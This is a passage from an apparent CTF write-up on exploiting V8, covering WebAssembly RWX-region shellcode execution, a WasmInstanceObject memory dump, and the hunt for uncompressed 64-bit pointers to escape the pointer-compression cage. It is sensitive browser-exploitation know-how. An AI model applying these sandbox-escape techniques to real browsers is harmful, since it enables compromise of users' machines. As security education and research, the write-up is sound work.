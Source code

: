 ~~~
var wasm_mod2 = new WebAssembly.Module(wasm_code2);
var wasm_instance2 = new WebAssembly.Instance(wasm_mod2);
var f = wasm_instance2.exports.main;
~~~
Overwriting the rwx region and invoke `f()` will execute the written shellcode.

In our case, the rwx region itself is outside the cage, so we cannot overwrite it directly. However, the pointer itself is still inside the cage. A `WASMInstance` looks like this in memory:
~~~
0x238b081d4324:	0x0800224908206439	0x0800224908002249
0x238b081d4334:	0x0000000008002249	0x0000238c81010000
0x238b081d4344:	0x0000000000010000	0x000055dff37429e0
0x238b081d4354:	0x000055dff38bbcd0	0x0000000000000000
0x238b081d4364:	0x0000000000000000	0x0000000000000000
0x238b081d4374:	0x000055dff38bbcf0	0x000055dff37429c0
0x238b081d4384:	0x00002dc419c9e000	0x000055dff374ede8
0x238b081d4394:	0x000055dff374ede0	0x000055dff374ee00
0x238b081d43a4:	0x000055dff374edf8	0x000055dff37429d0
0x238b081d43b4:	0x000055dff38bbd10	0x000055dff38bbd30
0x238b081d43c4:	0x000055dff38bbd50	0x000055dff3764f29
0x238b081d43d4:	0x000055dff38bb240	0x08084cad08084b51
~~~
And `0x00002dc419c9e000` points to the rwx region. So, does overwriting this value give us PC control? Maybe we can use this PC control to ROP? Unfortunately, the answer is no. After a few trials, I still couldn't let V8 to dereference this pointer. After following the trace, @adamd and I found out that the real pointer used for invoking the shellcode resides on ptmalloc heap, which is outside of the cage.

Now what?

## Attempt 3
Now the only option left is to find a raw 64bit pointer on JS heap and hope that hijacking it can give us access to outside of the cage. But almost all values inside the cage are compressed pointers, how do we find 64bit pointers?

Oh wait, what are those in `WASMInstance`? Those are all 64bit pointers, lol. Let's just pick a good one.
To understand what those values stand for, the best approach is to do a `%DebugPrint`:
~~~
DebugPrint: 0x238b081d4325: [WasmInstanceObject] in OldSpace
 - map: 0x238b08206439 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x238b08384bed <Object map = 0x238b08206c81>
 - elements: 0x238b08002249 <FixedArray[0]> [HOLEY_ELEMENTS]
 - module_object: 0x238b08084b51 <Module map = 0x238b082062d1>
 - exports_object: 0x238b08084cad <Object map = 0x238b08206e39>
 - native_context: 0x238b081c2c75 <NativeContext[266]>
 - memory_object: 0x238b081d430d <Memory map = 0x238b082066e1>
 - table 0: 0x238b08084c3d <Table map = 0x238b08206551>
 - imported_function_refs: 0x238b08002249 <FixedArray[0]>
 - indirect_function_table_refs: 0x238b08002249 <FixedArray[0]>
 - managed_native_allocations: 0x238b08084bf5 <Foreign>
 - managed object maps: 0x238b08002249 <FixedArray[0]>
 - feedback vectors: 0x238b08002249 <FixedArray[0]>
 - memory_start: 0x238c81010000
 - memory_size: 65536
 - imported_function_targets: 0x55dff38bbcd0
 - globals_start: (nil)
 - imported_mutable_globals: 0x55dff38bbcf0
 - indirect_function_table_size: 0
 - indirect_function_table_sig_ids: (nil)
 - indirect_function_table_targets: (nil)
 - properties: 0x238b08002249 <FixedArray[0]>
 - All own properties (excluding elements): {}
~~~